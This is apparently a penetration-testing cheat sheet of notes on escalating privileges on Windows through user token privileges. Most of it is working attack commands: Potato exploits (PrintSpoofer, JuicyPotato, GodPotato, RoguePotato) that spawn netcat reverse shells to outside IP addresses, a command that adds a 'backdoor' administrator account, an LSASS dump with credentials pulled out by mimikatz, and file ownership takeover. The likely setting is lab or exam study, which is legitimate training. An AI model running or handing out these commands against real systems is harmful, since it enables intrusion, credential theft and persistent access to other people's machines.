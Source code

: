 # ✅ Windows Privilege Escalation – User Privileges 

---

## 🎯 Quick Wins
- [ ] `SeImpersonatePrivilege` / `SeAssignPrimaryTokenPrivilege` → Potato exploit (Juicy, PrintSpoofer)
- [ ] `SeDebugPrivilege` → Dump LSASS or SYSTEM shell
- [ ] `SeTakeOwnershipPrivilege` → Take ownership of sensitive files
- [ ] `SeBackupPrivilege / SeRestorePrivilege` → Copy SAM & SYSTEM files
- [ ] `SeLoadDriverPrivilege` → Load malicious driver
- [ ] `SeSecurityPrivilege` → Access security logs

---
## ✅ Enumeration

```powershell
whoami /priv
whoami /all
```

```c
dir C:\ /a /s | findstr /i "temp programdata"
```

## ✅ SeImpersonate / SeAssignPrimary Token

```c
# Check The Windows Version  & if it's 32 bit or 64 bit
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"

#Token Impersonation - PrintSpoofer 
c:\tools\PrintSpoofer.exe -c "c:\Users\chris\tools\nc64.exe ip 21 -e cmd"
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
C:\tools>.\PrintSpoofer.exe -i -c powershell.exe 

# Token Impersonation - JuicyPotato
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\Users\chris\Desktop\tools\nc64.exe 192.168.45.171 22 -e cmd.exe" -t *
C:\temp\JuicyPotato.exe -t * -p C:\Users\Public\Documents\sh3ll.exe -l 443

# Token Impersonation - JuicyPotato - Troubleshooting error 
1 . check THe version of the windows
2 . check this website to search of a CLSID https://ohpe.it/juicy-potato/CLSID/
3 . Exploit : C:\temp\JuicyPotato.exe -t * -p C:\temp\shell.exe -l 443 -c "{6d18ad12-bde3-4393-b311-099c346e6df9}" 
1. if it doesn't work try another CLSID

# GodPotato
GodPotato -cmd "cmd /c dir c:\Users\Administrator"
GodPotato-NET2.exe -cmd "cmd /c type c:\Users\damon\DEsktop\proof.txt"
GodPotato -cmd "C:\Users\Public\reverse.exe"

Sometimes the SeImpersonatePrivilege is not the actual intended path so the Godpotato shell will be broken and you will not be able to execute whoami, no output for mimikatz, etc.

GodPotato -cmd "net user /add backdoor Password123" GodPotato -cmd "net localgroup administrators /add Lance"

# RougePotato Exploit
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe ip 443 -e cmd" -l 9999
# In some old versions you need to use the "-f" param
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe ip 443 -e cmd" -f 9999

# SharpEfsPotato
> SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"

# EfsPotato
> EfsPotato.exe "whoami"

# non of them working try?
> BadPotato.exe
> Multipotatox64.exe
> SharpEfsPotato.exe
> SigmaPotato.exe
> RogueOxidResolver.exe
```

## ✅ SeDebugPrivilege

```c
Note !! : if you have rdp access i can dump the lsass without using procdump

Step1  : Open Task Manager
Step2  : Open Details Page
Step3  : find lsass.exe and press right click
Step4  : Click in Create dump File
```

```c
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

## ✅ SeTakeOwnershipPrivilege

```c
# Take ownership of file
takeown /f "C:\Sensitive\File.txt"

# Grant full control
icacls "C:\Sensitive\File.txt" /grant user:F

# Read file
type "C:\Sensitive\File.txt"
```
---
---
